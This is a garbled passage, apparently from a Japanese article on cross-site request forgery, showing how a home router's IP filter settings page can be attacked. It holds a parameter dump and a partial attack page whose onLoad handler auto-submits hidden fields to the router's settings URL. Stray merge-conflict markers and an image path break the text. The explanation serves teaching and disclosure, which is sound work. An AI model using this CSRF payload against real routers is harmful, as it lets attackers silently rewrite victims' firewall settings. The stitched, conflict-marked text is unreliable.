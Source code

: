 \-\-\-\-\-
No0001F011str\=PPPoE
No00A21051str\=1
No00301000\=22
No00301212\=
No00302000\=1
No00302112\=
No00801000\=22
No00801211\=1
No00802000\=1
No00802111\=1
No00818071str\=0
No00450000dummy\=%93K%97p
No00802120\=1
No00802120\=2
No00802120\=3
No00801220\=5
No00801220\=7
No00802120\=8
No00802120\=9
No00802120\=10
No00802120\=11
No00802120\=12
No00802120\=13
No00801220\=14
No00801220\=15
No00801220\=16
No00801220\=17
No00801220\=18
No00450000\=
No00450011\=sys
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　CSRF攻撃を仕掛ける側は、これらの「フォームによってsubmitされるパラメー
タの名前と値のペア」を事前に把握し、HTMLファイルに仕組んでおきます。そし
て被害者がそのHTMLファイルにアクセスするよう仕向け、アクセスした瞬間にJa
vaScriptを使ってフォームをsubmitしてしまえばよいというわけです。

　上のパラメータ一覧を見て注意して欲しいのは、このパラメータの一覧には認
証に使われるものが何一つ含まれていないということです。前述したとおりこの
ルータの設定画面において認証にはBasic認証が使われており、フォームからsub
mitされるパラメータは認証には一切使用されません。そのため、ユーザ名とパス
ワードがどんなものであっても、これらのパラメータ一覧は常に同じ値を取り、
攻撃者は正確な内容のパラメータを用意することができます。攻撃者が用意する
HTMLファイルは以下のようなものになります。

<<<<<<< HEAD
-----
<html>
<body onLoad="javascript:document.forms[ 0 ].submit();">
<form action="http://192.168.0.1/entry_ipfilter_main_top.html"
 method="POST">
<input type="hidden" name="No0001F011str" value="PPPoE">
<input type="hidden" name="No00A21051str" value="1">
<input type="hidden" name="No00301000" value="22">
<input type="hidden" name="No00301212" value="">
<input type="hidden" name="No00302000" value="1">
<input type="hidden" name="No00302112" value="">
<input type="hidden" name="No00801000" value="22">
<input type="hidden" name="No00801211" value="1">
<input type="hidden" name="No00802000" value="1">
<input type="hidden" name="No00802111" value="1">
<input type="hidden" name="No00818071str" value="0">
<input type="hidden" name="No00802120" value="1">